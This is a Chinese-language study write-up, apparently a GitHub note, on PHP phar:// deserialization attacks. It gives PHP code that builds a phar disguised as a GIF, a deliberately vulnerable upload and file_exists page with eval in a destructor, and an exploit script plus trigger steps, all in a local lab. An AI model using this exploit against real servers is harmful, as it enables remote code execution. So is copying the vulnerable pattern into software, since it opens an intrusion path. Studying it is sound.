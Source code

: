 # phar://与序列化

## 原理

该方法利用phar文件会序列化储存用户自定义的 **meta-data**，在文件函数(file_exists() , file_get_contents().....)参数可控的情况下，配合phar://伪协议，不依赖unserialize()函数进行反序列化操作。

### phar文件结构

#### a stub

这个可以理解为是phar文件的一个标志，格式为 `xxx<?php xxx;__HALT_COMPILER();?>` 前面的内容不限制，但是必须以 `__HALT_COMPILER();?>` 来结尾，否则phar拓展无法识别这个文件是phar文件。

#### a container describing the contents

phar本质上就是压缩文件，在这个部分，描述了被压缩文件的权限，属性等信息。其中这里有一个用户自定义的 **meta-data** ，这是攻击的核心地方。

![](4.png)



#### file contents

需要被压缩的文件

#### signature

签名，放在末尾

## Demo

根究要求我们要创建一个phar文件，才行实现漏洞。注意：要在**php.ini**文件里，找到**phar.readonly**，将其改为**off** ,特别强调的是，前面的分号要去掉(winodws下)。如果是linux环境下，需要在 /etc/php/7.0/apache2/php.ini 和/etc/php/7.0/cli/php.ini 这两个文件都需要修改 phar.readonly 否则不能生成phar文件(被这个坑了半天。。。)

**sub.php**

```php
<?php
    class Test{
   
    }//创建一个类
    $phar = new Phar("test.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
    $o = new Test();//自定义的meta-data
    $phar->setMetadata($o); //将自定义的meta-data存入manifest
    $phar->addFromString("phpinfo.txt", "test"); //添加要压缩的文件
    $phar->stopBuffering();    //签名自动计算
?>
```

访问这个文件，会在根目录下生成一个test.phar文件

![](5.png)

打开这个文件，可以到Test类被序列化存储

![](1.png)

**sub_phar.php**

```php
<?php
class Test{
    function __destruct()
    {
        echo 'Test';  
    }//析构函数会在到某个对象的所有引用都被删除或者当对象被显式销毁时执行。这里用于展示Test类被反序列化后，便会调用析构函数。
}
$filename = 'phar://test.phar/phpinfo.txt';
file_exists($filename);

?>
```

![6](6.png)

目前受影响的函数如下

![](2.png)

###将phar文件伪装成其他文件

因为stub对前面的内容不做限制，所以可以将`xxx<?php xxx;__HALT_COMPILER();?>`  改为`'Gif9a'.'<?php __HALT_COMPILER();?>'`  绕过某些WAF的检测。

![](3.png)

## 漏洞验证

**upload_file.html**

```html
<head>
<title>Phar_test</title>
<body>
    <form action="http://localhost/phar/upload.php" method="post" enctype="multipart/form-data">
        <input type="file" name="file" />
        <input type="submit" name="submit" />
    </form>
</body>
</head>
```

**upload.php**

```php
<?php
//验证文件类型和文件名
if (($_FILES["file"]["type"]=="image/gif")&&(substr($_FILES["file"]["name"], strrpos($_FILES["file"]["name"], '.')+1))== 'gif') {
    echo "Upload: " . $_FILES["file"]["name"];
    echo "Type: " . $_FILES["file"]["type"];
    echo "Temp file: " . $_FILES["file"]["tmp_name"];
//判断文件是否存在
    if (file_exists("upload_file/" . $_FILES["file"]["name"]))
      {
      echo $_FILES["file"]["name"] . " already exists. ";
      }
    else
      {
      move_uploaded_file($_FILES["file"]["tmp_name"],
      "upload_file/" .$_FILES["file"]["name"]);
      echo "Stored in: " . "upload_file/" . $_FILES["file"]["name"];
      }
    }
else
  {
  echo "Invalid file,you can only upload gif";//文件类型不符合，跳转这个分支。
  }
```

**file_un.php**

```php
<?php
$filename=$_GET['filename'];
class Test{
    var $output = 'test';
    function __destruct(){
        eval($this->output);
    }
}
file_exists($filename);
?>
```

首先我们根据file_un.php写一个exp脚本，生成phar文件。

**evil.php**

```php
<?php
class Test{
    var $output = 'test';
    function __destruct(){
        eval($this->output);
    }
}
$phar = new Phar('phar.phar');
$phar->startBuffering();
$phar->setStub('Gif9a'.'<?php __HALT_COMPILER();?>');
$phar->addFromString('phpinfo.txt','test');
$test = new Test();
$test->output='phpinfo();';
$phar->setMetadata($test);
$phar->stopBuffering();
?>
```

### 触发机制

首先，访问evil.php在本地生成一个phar文件：**phar.phar** 接着将文件名改为phar.gif。来到upload_file.html页面，上传phar.gif文件。

![](7.png)

可以看到上传成功，来到file_un.php页面，用phar://协议，进行反序列化：

![8](D:\git\Git\dw\0711\8.png)

可以看到，成功执行。

## 利用条件

1. phar文件能够上传服务器端
2. 要有能利用的魔术方法作为”中间人“
3. 文件操作函数的参数可控，**phar，：，/**等字符没被过滤

## END

花了几个小时，学习了这个漏洞，收获很多，对于自己的知识也得到了提升。

参考链接：https://paper.seebug.org/680/#0x01

